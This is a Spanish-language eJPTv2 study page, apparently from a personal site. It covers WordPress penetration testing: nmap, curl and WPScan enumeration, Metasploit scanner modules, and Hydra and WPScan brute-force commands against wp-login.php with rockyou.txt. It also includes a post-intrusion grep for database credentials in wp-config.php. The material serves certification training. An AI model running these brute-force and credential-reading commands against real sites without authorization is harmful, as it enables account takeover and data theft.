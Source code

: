 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# Wordpress

WordPress es un sistema de gestión de contenido (CMS) de código abierto, gratuito y muy popular que permite crear y gestionar sitios web. Se utiliza principalmente para construir blogs, sitios web corporativos, tiendas en línea, y mucho más. Su facilidad de uso y la gran cantidad de temas y plugins disponibles lo convierten en una herramienta versátil y accesible para usuarios con diferentes niveles de experiencia.

---

## 🕵️Identificación de la versión de WordPress y sus componentes

```bash
nmap -sV --script http-wordpress-enum <url> # Detección de la versión de WordPress y plugins.
nmap -sV --script "http-wordpress* and not http-wordpress-brute" <url> # Escaneo de vulnerabilidades en WordPress.
nmap -sV --script http-wordpress-users <url> # Enumeración de usuarios de WordPress.
nmap --script=http-wordpress-enum --script-args http-wordpress-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar el uso de WordPress.
nmap --script=http-vuln* -p 80,443 <url> # Detección de vulnerabilidades específicas en WordPress y sus plugins.
```

También podemos intentar enumerar plugins con la herramienta curl:

```bash
curl -s -X GET "http://192.168.100.50" | grep -oP 'plugins/\K.*' | sort -u
```

## Checklist de WordPress ✔️

Para comprobar si existe un panel de inicio de sesión:


- url/wp-admin/login.php
- url/wp-admin/wp-login.php
- url/wp-login.php

Otros directorios clave a revisar en cualquier sitio web:


- url/robots.txt
- url/sitemap.xml
- url/CHANGELOG.txt


Cuando hayamos logrado la intrusión: 

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

 Si al acceder al servicio web notamos que no carga correctamente, es posible que se esté utilizando Virtual Hosting. En este caso, deberemos añadir el dominio al que apunta realmente en nuestro archivo /etc/hosts. Para ello, agregamos la IP de la web junto con el dominio correspondiente, por ejemplo: 10.0.0.10 wordpress.htb.

---

## 🛠️ Escaneo básico de WordPress con Metasploit

```bash
use auxiliary/scanner/http/wordpress_version # Cargar el módulo.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🕵️ Enumeración de usuarios en WordPress

```bash
use auxiliary/scanner/http/wordpress_users_enum
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🔑 Ataque de fuerza bruta con Metasploit

```bash
search auxiliary/scanner/http/wordpress_login_enum
```


```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Nombre de usuario objetivo.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Diccionario de contraseñas.
exploit
```

## 🛠️ Otras herramientas para auditar WordPress

### WPScan

WPScan es una herramienta especializada en la enumeración y auditoría de sitios basados en WordPress. Permite detectar vulnerabilidades, usuarios, plugins y temas instalados.

Ejemplo de uso:

```bash
wpscan --url <url_wordpress> # Análisis básico de WordPress.
wpscan --url <url_wordpress> -e vp,u # Enumeración de plugins vulnerables y usuarios.
wpscan --url <url_wordpress> -e t # Enumeración de temas instalados.
```

💡 Una buena práctica durante la auditoría de WordPress es revisar el código fuente de la página. Allí podemos encontrar rutas como /uploads, analizar si hay directory listing, identificar temas, plugins y posibles filtraciones de información (information leakage), vhosts, entre otros.

💡 También es recomendable examinar publicaciones de blogs u otras secciones del sitio web en busca de nombres de usuario que puedan ser utilizados en ataques de fuerza bruta.

Si encontramos nombres de usuario potenciales, debemos almacenarlos en un archivo .txt para su posterior análisis o uso como wordlist.

## 🔑 Fuerza bruta en el panel de inicio de sesión de WordPress

```bash
wpscan --url http://127.0.0.1:8080/ -U <user> -P /usr/share/wordlists/rockyou.txt # Uso de diccionario de contraseñas.
wpscan --url http://127.0.0.1:8080/ --passwords <ruta_diccionario.txt> --usernames <ruta_usuarios.txt> # Ataque con múltiples usuarios.
```

Ataque de fuerza bruta con Hydra

```bash
hydra -l <usuario> -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```


Ataque a múltiples usuarios:

```bash
hydra -L <lista_usuarios.txt> -P <diccionario.txt> <url> -s 8080 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

---


<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>
